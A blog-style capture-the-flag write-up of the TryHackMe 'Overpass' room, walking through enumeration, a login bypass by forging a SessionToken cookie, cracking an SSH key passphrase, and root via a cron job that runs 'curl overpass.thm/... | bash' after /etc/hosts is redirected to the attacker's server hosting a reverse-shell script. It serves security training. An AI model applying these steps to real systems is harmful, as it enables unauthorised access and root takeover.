 ```yaml
---
title: "Overpass"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="overpass.png" alt="overpass" style="width: 200px;" >}}

## Enumeration

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
```

well first enumeration got us the minimum
Meaning we have to focus on the websie itself
let's focus on their about us page first

```text
Ninja - Lead Developer

Pars - Shibe Enthusiast and Emotional Support Animal Manager

Szymex - Head Of Security

Bee - Chief Drinking Water Coordinator

MuirlandOracle - Cryptography Consultant
```

potential usernames? not sure...
Shall we bruteforce the admin page we found? is it anything in their source code?
Lets focus on admin page then..it's an easy room it can't be something too complicated

Oh the javascript login function

```javascript
async function login() {
const usernameBox = document.querySelector("#username");
const passwordBox = document.querySelector("#password");
const loginStatus = document.querySelector("#loginStatus");
loginStatus.textContent = ""
const creds = { username: usernameBox.value, password: passwordBox.value }
const response = await postData("/api/login", creds)
const statusOrCookie = await response.text()
if (statusOrCookie === "Incorrect credentials") {
loginStatus.textContent = "Incorrect Credentials"
passwordBox.value=""
} else {
Cookies.set("SessionToken",statusOrCookie)
window.location = "/admin"
}
}
```

On successful login a SessionToken cookie is created

lets craft it ourselves..as long as the cookie is named SessionToken we pass

```text
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox
```

haha poor james...ok lets crack his key with john and rockyou

```text
james13 (james_id_rsa)

james:james13
```

If james forgets that passphrase too he is a moron

```bash
$chmod 600 james_id_rsa

$ssh James@10.10.72.200 -i james_id_rsa
Enter passphrase for key 'james_id_rsa':
Connection closed by 10.10.72.200 port 22
```

ugh...what is this again???? yeah it was serverfault error

I just had to wait (or restart the macine) and now it works

```bash
james@overpass-prod:~$ cat user.txt
thm{james_got_a_new_job}
```

got user FLAG

another file there

```bash
james@overpass-prod:~$ cat todo.txt
To Do:

> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
> Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
> They're not updating on the website
```

lets privEsc before we got problems again

## Prviledge Escalation

`sudo -l` won't work this time because we dont have james sudo password
He say he used overpass to store it
it seems like we need to use the overpass build script

I already downloaded it in source files earlier

```bash
james@overpass-prod:~$ find / -name 'overpass' 2> /dev/null
/usr/bin/overpass
```

ok they got overpass installed

```bash
overpass
Welcome to Overpass
Options:
1 Retrieve Password For Service
2 Set or Update Password For Service
3 Delete Password For Service
4 Retrieve All Passwords
5 Exit
Choose an option: 4
System saydrawnlyingpicture
```

we retrieve system password

```bash
sudo -l
[sudo] password for james:
Sorry, user james may not run sudo on overpass-prod.
```

lmao that was a big waste of my time

well lets upload linPEAS with a python server and get real information

```bash
╔══════════╣ Cron jobs
...

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

- - - - - root curl overpass.thm/downloads/src/buildscript.sh | bash

══╣ /etc/hosts.allow file found, trying to read the rules:
/etc/hosts.allow

╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/etc/hosts
/home/james
/run/lock
/run/screen
/run/screen/S-james
/run/user/1001
/run/user/1001/gnupg
/run/user/1001/systemd
/tmp
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/tmp/.font-unix
#)You_can_write_even_more_files_inside_last_directory
```

Basically a cron runs every 1 minutes as root and do a curl to `overpass.thm`
if its not in dns its a vhost and the `/etc/hosts` is writable
Amazing...we use nano to point overpass.thm to our ip address

```bash
cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.8.226.203 overpass.thm

# The following lines are desirable for IPv6 capable hosts

::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

That means every 1 min the cron gonna run at /myserverfolder/downloads/src/buildscript.sh
We just have to make that directory structure in a www folder and make MY buildscript.sh spawn a reverse shell
we catch that connection in another netcat listenner

1 minute after we are root

```bash
root@overpass-prod:~# cat root.txt
cat root.txt
thm{control_over_the_host_server}
```

For an easy room that privilege escalation was...tedious...but so great

It was so cool making the run from or own server
